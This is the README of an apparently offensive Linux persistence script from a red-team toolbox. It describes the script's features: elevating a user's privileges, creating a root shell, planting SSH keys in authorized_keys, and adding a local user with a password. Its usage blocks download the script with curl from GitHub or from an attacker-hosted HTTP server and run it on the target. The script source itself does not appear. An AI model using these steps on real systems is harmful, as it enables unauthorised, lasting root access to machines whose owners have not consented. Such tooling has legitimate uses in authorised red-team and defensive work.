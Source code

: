 # Persistence Phase

Definition...  

Available parts:
- Elevate privileges
- Create a root shell
- Modify ssh keys
- Create local user

## Usage

```sh
# From github
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/persistence/lin-persistence.sh
sh lin-persistence.sh -h
```
```sh
# Local network
# Host:
python -m SimpleHTTPServer 8000 #or
python3 -m http.server 8000
# Target:
curl -LJO <Host>:8000/lin-persistence.sh
sh lin-persistence.sh -h
```

### Parameters

```sh
sh lin-persistence.sh -h

Usage: sh lin-persistence.sh [-h/-?] [-e] [-r] [-s] [-u] [-p]

-h/-?
  Show this help message

-e <username>
  Elevate privileges of the given user
  Root needed!

-r
  Create a root shell
  Root needed!

-s <ssh public key / content of id_rsa.pub>
  Trying to add ssh public key to authorized_keys of current user

-u <username>
  Add a local account/user
  Root needed!

-p <password>
  Set this password to new user
  Only useful in combination with -u parameter
  Root needed!
```

## Results

The results are printed directly to STDOUT.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems. 
